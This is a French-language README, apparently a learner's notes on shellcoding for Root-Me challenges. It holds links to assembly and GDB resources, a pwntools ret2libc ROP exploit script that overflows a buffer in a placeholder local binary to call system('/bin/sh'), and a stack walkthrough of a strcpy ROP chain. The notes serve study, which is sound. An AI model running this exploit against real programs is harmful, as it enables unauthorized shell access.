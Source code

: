 # Petit readme où j'étale les ressources et réflexions utilisées au fur et à mesure de mon apprentissage des bases du shellcoding 
Je n'ai aucune compétence préliminaire en assembleur, les codes de mes mains sont donc particulièrement moches et surement peu logiques.


## introduction au shellcoding avec pile executable - RootMe
[Conférence @VoydStack - Writing Shellcodes for dummies](https://www.youtube.com/watch?v=zxhQevqX_7w&t=1288s&ab_channel=Root-Me)


## compilation et extraction d'un shellcode simple en assembleur
[compile.sh](./compile.sh)

## premier challenge de shellcoding rootme 

## RESSOURCES assembleur x64

[Assembly Language & Computer Architecture Lecture (CS 301)](https://www.cs.uaf.edu/2017/fall/cs301/lecture/09_11_registers.html)

[misc/syscalls64.md · Hackndo](https://github.com/Hackndo/misc/blob/master/syscalls64.md)

[gdb.pdf](https://web.cecs.pdx.edu/~apt/cs510comp/gdb.pdf)

[Debugging assembly with GDB – ncona.com – Learning about computers](https://ncona.com/2019/12/debugging-assembly-with-gdb/)

[x64_cheatsheet.pdf](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf)

## tester si la pile est executable
```{bash}

```

## BYPASS DE NX et ASLR en utilisant ret2libc et des ROP

[www.trustwave.com](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/babys-first-nxplusaslr-bypass/)

La librairie 'struct' et de l'huile de coude pour trouver et mettre sous forme de shellcode les bonnes adresses mais la librairie 'pwtools' peut aider à cela :

```{python}
from pwn import *

# Configuration de la connexion au binaire vulnérable
context.binary = './vulnerable_program'
elf = ELF('./vulnerable_program')
libc = elf.libc

# Trouver l'offset du dépassement de tampon
offset = 64

# Trouver les gadgets ROP
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]

# Adresse de la fonction system() dans libc
system_addr = libc.symbols['system']

# Adresse de la chaîne "/bin/sh" dans libc
bin_sh_addr = next(libc.search(b'/bin/sh'))

# Construire le payload
payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(bin_sh_addr)
payload += p64(ret)
payload += p64(system_addr)

# Envoyer le payload au programme vulnérable
p = process('./vulnerable_program')
p.sendline(payload)
p.interactive()
```



### exemple de ROP :

#### /!\ il s'agit de comment j'ai déduit le fonctionnement du shellcode exposé sur le site. Il est probable que cela ne soit absolument pas le reflet de la réalité.

l'instruction pop-pop-ret après strcpy

AVANT STRCPY:
strcpy@plt <- EIP, adresse de retour originale écrasée par buffer overflow
pop-pop-ret@ROP
dst (bss)
src (adresse du char 's')


PILE DURANT STRCPY :
ret addr (push par call strcpy) <- EIP (pointe en fait sur le ROP car le shellcode continue dans la pile)
pop-pop-ret@ROP
dst (bss)
src
reste du shellcode stoqué dans la pile...

PILE APRES STRCPY (ret dans strcpy dépile la tete de pile) :
pop-pop-ret@ROP <- EIP
dst
src
reste du shellcode ...

/!\ sans le ROP, on aurait EIP qui pointe sur dst (suite logique du programme du shellcode), et ferait crash le programme

PILE APRES ROP :
reste du sellcode instruction 1 (prochain strcpy ) <- EIP 
(dépilé dans EIP mais pour l'image on laisse dans la pile)
reste du shellcode ...

> d'après ce que j'ai compris, la convention d'appel cdecl, qui est utilisée par défaut en C sous Linux/x86 fait que les arguments de la fonction ne sont pas dépilés quand utilisés mais lus grâce à sp (sp+4 et sp+8 pour strcpy). Il incombe dont au code après l'instruction ret de la fonction appelée de dépiler les arguments. 

